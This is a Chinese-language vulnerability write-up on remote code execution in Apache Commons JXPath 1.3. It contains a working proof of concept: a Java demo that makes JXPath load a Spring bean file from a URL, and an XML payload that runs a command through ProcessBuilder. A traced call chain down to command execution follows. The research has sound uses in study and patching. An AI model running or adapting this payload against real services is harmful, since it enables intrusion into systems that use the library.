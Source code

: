 ## 漏洞环境

目前影响到1.3

maven
```xml
<!-- https://mvnrepository.com/artifact/commons-jxpath/commons-jxpath -->
<dependency>
    <groupId>commons-jxpath</groupId>
    <artifactId>commons-jxpath</artifactId>
    <version>1.3</version>
</dependency>
```

demo
```java
package com.jxpath.demo;  
  
import org.apache.commons.jxpath.JXPathContext;  
  
public class demo {  
    public static void main(String[] args) {  
        try {  
            JXPathContext context = JXPathContext.newContext((Object)null);  
            String key = (String) context.getValue("org.springframework.context.support.ClassPathXmlApplicationContext.new(\"http://127.0.0.1:8000/bean.xml\")");  
            System.out.println(key);  
        } catch (Exception e){  
            System.out.println(e);  
        }  
    }  
}
```

exp
```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<!--    普通方式创建类-->
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value>calc.exe</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```


## 调试

入口 getValue
![](attachments/Pasted%20image%2020230422154855.png)

在将xpath放到express中后又带入getValue

![](attachments/Pasted%20image%2020230422155340.png)

ExtensionFunction#computeValue

![](attachments/Pasted%20image%2020230422155530.png)

org/apache/commons/jxpath/ri/axes/RootContext.java#getFunction

![](attachments/Pasted%20image%2020230422155630.png)

org/apache/commons/jxpath/ri/JXPathContextReferenceImpl.java#getFunction

![](attachments/Pasted%20image%2020230422155749.png)

org/apache/commons/jxpath/PackageFunctions.java#getFunction

![](attachments/Pasted%20image%2020230422160210.png)

在下面根据是否new方法来来返回不同的function
- MethodLookupUtils.lookupConstructor
- MethodLookupUtils.lookupStaticMethod

![](attachments/Pasted%20image%2020230422161104.png)

在ConstructorFunction后，这就是前面get到的function

![](attachments/Pasted%20image%2020230422161631.png)

org/apache/commons/jxpath/functions/ConstructorFunction.java#invoke

![](attachments/Pasted%20image%2020230422161802.png)

constructor.newInstance后向上一直到`\org\springframework\spring-jcl\5.3.23\spring-jcl-5.3.23.jar!\org\apache\commons\logging\LogFactory.class` 进行getName

![](attachments/Pasted%20image%2020230422162046.png)

之后就是一直到refresh执行结弹出计算器

![](attachments/Pasted%20image%2020230422162504.png)

```java
public void refresh() throws BeansException, IllegalStateException {  
    synchronized(this.startupShutdownMonitor) {  
        StartupStep contextRefresh = this.applicationStartup.start("spring.context.refresh");  
        this.prepareRefresh();  
        ConfigurableListableBeanFactory beanFactory = this.obtainFreshBeanFactory();  
        this.prepareBeanFactory(beanFactory);  
  
        try {  
            this.postProcessBeanFactory(beanFactory);  
            StartupStep beanPostProcess = this.applicationStartup.start("spring.context.beans.post-process");  
            this.invokeBeanFactoryPostProcessors(beanFactory);  
            this.registerBeanPostProcessors(beanFactory);  
            beanPostProcess.end();  
            this.initMessageSource();  
            this.initApplicationEventMulticaster();  
            this.onRefresh();  
            this.registerListeners();  
            this.finishBeanFactoryInitialization(beanFactory);  
            this.finishRefresh();  
        } catch (BeansException var10) {  
            if (this.logger.isWarnEnabled()) {  
                this.logger.warn("Exception encountered during context initialization - cancelling refresh attempt: " + var10);  
            }  
  
            this.destroyBeans();  
            this.cancelRefresh(var10);  
            throw var10;  
        } finally {  
            this.resetCommonCaches();  
            contextRefresh.end();  
        }  
  
    }  
}
```


在DefaultListableBeanFactory.class#preInstantiateSingletons()里完成了命令执行

在这里面利用java.lang.ProcessBuilder来完成命令执行，xml中的value被读入按照其加载方式作为可执行程序和参数加载执行